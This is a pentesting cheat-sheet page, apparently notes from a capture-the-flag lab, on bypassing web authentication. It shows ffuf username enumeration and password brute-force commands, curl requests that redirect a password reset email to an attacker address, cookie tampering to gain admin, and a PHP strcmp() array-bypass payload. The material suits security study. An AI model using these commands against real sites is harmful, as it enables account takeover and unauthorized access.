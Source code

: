 # Authentication Bypass

## Username Enumeration

* Try a random username that probably does not exist, and then try one that probably exists, is there a different error?

```
jksaljkfl <- username that does not exist
admin <- username that probably exists
guest <- another potential username
```

* We can use the existence of this error message to produce a list of valid usernames already signed up on the system by using the ffuf tool below
* The ffuf tool uses a list of commonly used usernames to check against for any matches.
* Capture the request in `Burp` to find the `Content-Type`, whether its a `GET` or `POST`

```
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"
```

* `-w` -> selects the file's location
* `-X` -> argument specifies the request method
* `-d` -> the data that we are going to send
* `FUZZ` -> keyword signifies where the contents from our wordlist will be inserted in the request
* `-H` -> for adding additional headers to the request
* `-u` -> specifies the URL we are making the request to
* `-mr` -> is the text on the page we are looking for to validate we've found a valid username

## Password Brute force attack

```
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
```

* Previously we used the FUZZ keyword to select where in the request the data from the wordlists would be inserted, but because we're using multiple wordlists, we have to specify our own FUZZ keyword.
* `W1` -> for our valid list of usernames
* `W2` -> for the list of passwords we are going to try
* `-w` -> the multiple word lists are also specified with this flag
* `-fc` -> this argument check for an HTTP status code other than a 200

## Authentication Bypass Logic Flaw

* If a specific url is blocked without authentication like `/admin`, depending on the code you may be able to bypass it.
* Try:

```
/adMin
/aDmIn
```

### Finding password reset forms

* If there is an option always make an account. There could be pages you have access to that you otherwise would not.
* Also if there is a password reset option on the site you might be able to get their password reset link sent to you.
* Use curl to figure out how the parameters are passed to the server, in this example the username is a `POST` field and the email address is a `GET` field

```
curl 'http://10.10.115.78/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```

* `-H` -> to add an additional header to the request. In this case we are setting the `Content-Type` to `application/x-www-form-urlencoded`
* Can find this out in burp, or set something ourselves
* The `PHP $_REQUEST` variable is an array that contains data received from the query string and POST data. - If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form
* We can control where the password reset email gets delivered.

```
curl 'http://10.10.115.78/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

* Now re-running the curl command we can alter where the reset link is sent

```
curl 'http://10.10.115.78/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```

## Cookie Tampering

* Decode the stored cookies and see if you can manipulate them before making curl requests with the new tampered cookies.
* First, we'll start just by requesting the target page:

```
curl http://MACHINE_IP/cookie-test
```

* We can see we are returned a message of: Not Logged In
* Now we'll send another request with the logged\_in cookie set to true and the admin cookie set to false:

```
curl -H "Cookie: logged_in=true; admin=false" http://MACHINE_IP/cookie-test
```

* We are given the message: Logged In As A User
* Finally, we'll send one last request setting both the logged\_in and admin cookie to true:

```
curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test
```

* This returns the result: Logged In As An Admin

### strcmp() PHP bypass

* If you are able to get access to some php course code that uses `strcmp()` for checking usernames and passwords, bypassing it can be trivial&#x20;

<figure><img src="../.gitbook/assets/image (3) (3).png" alt=""><figcaption><p>Example of php source code using strcmp()</p></figcaption></figure>

* By capturing the authentication in burp you can turn the username and or password field into an array, bypassing the authentication, in this instance we must do it for both the username and password fields.

<figure><img src="../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>

* When submitting a normal request, we are informed that `'Wrong Username or Password'`
* However, once we change our parameters into an array value with the fields === 0, we login&#x20;

<figure><img src="../.gitbook/assets/image (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

* `username[]=0&password[]=0`

<figure><img src="../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

